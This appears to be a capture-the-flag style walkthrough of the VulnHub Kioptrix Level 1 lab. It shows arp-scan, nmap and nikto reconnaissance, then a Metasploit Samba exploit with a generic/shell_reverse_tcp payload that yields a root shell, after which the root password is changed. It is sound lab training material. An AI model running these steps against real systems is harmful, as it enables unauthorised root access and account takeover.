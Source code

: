 First of all downlaod Kiotrix Level No.1 Machine from offical website. Here is the link: https://www.vulnhub.com/entry/kioptrix-level-1-1,22/ Then add into virtual box and run the machine. 

![image](https://github.com/user-attachments/assets/25f48bed-51bb-48e9-95c4-b4c025957e9a)


<div align=center>

Then type arp-scan –l into kali linux terminal
  
![image](https://github.com/user-attachments/assets/1d1ac0e9-0493-4bee-a887-17f7bb8b8b51)

</div>


By above command I got the IP of target machine. Then I use nmap to get further details about target and run nmap –A Target_IP. I got some ports which are opened. Such as I take to deep dive into samba 139/TCP 


![image](https://github.com/user-attachments/assets/b2ceebda-a67d-4bf9-9674-5d414158f442)


Then I type target IP for confirmation or if any possible way to capture any further useful information. When I added /etc to last of address I got nothing. 

![image](https://github.com/user-attachments/assets/a49e3977-5607-4e6a-817e-94cebc69bd4f)


<div align=center>
  
Nikto –h http://192.68.0.110
</div>


![image](https://github.com/user-attachments/assets/c8dc38d3-67fd-4394-b7b5-1c3bea35202a)

Nikto help to figure what vulnerability can be exploited in the target machine. I came to know that reverse shell for remote access can be achieved.  

![image](https://github.com/user-attachments/assets/d0bc167e-1fe1-4e83-9640-2c3d6aa13ec1)

I opened metaspolit framework by typing msfconsole into the terminal. Then seach for the exploit by typing searchsploit samba and above list is there…

![image](https://github.com/user-attachments/assets/52da1b0b-b50d-4d8a-a5bb-9799402d76bc)

 
Type use 22 because only samba exploit with linux. As can be seen in the next to above screenshot. RHost is not added. Let’s do it!

![image](https://github.com/user-attachments/assets/b5e2be09-f241-479e-af51-cb3766129d76)
 
set rhost target_IP
rhost has been set. Now check by typing options. As can bee seen above.

![image](https://github.com/user-attachments/assets/c137d366-c89f-4f1c-bec4-17c427c10573)
 
Now I type payload and here is the list but from nikto hint was given so as in the screenshot highlighted payload will be used. It time to load it.
Be remind as I made mistake that I copied the payload and paste it but gave error. First remove slash between payload and generic then only give space. 

![image](https://github.com/user-attachments/assets/45ac11ee-d19f-4c1f-8547-9b92bc5e62ca)


set payload generic/shell_reverse_tcp
The payload has been loaded now I typed run And payload is running and creating session with target machine. Finally the session has been established. I typed whoami for confirmation that Did I get root account or not. As in the above screenshot it been seen I achieve my goal. Now Simply I typed passwd for change password as this command can only be run in root account. As I had root account I changed password of target machine into 1234 

![image](https://github.com/user-attachments/assets/46d047c0-e9a5-4f1c-beae-400f5c89b6ea)
 
Final step to check Kioptrix Level # 01 has been opened I typed root as username and 1234 in the password which I added as new password. I have been login into the root account.
